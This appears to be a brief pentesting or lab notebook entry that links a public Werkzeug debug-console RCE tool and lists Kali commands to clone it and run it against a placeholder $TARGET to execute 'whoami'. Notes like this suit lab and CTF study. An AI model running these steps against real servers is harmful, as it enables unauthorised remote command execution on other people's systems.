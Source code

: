 ```yaml
---
category: Uncategorized
tags: []
---
```

https://github.com/its-arun/Werkzeug-Debug-RCE

```bash - kali
git clone https://github.com/its-arun/Werkzeug-Debug-RCE.git
```

```bash - kali
cd Werkzeug-Debug-RCE
```

```bash - kali
chmod +x werkzeug.py
```

```bash - kali
python2 werkzeug.py $TARGET whoami
```
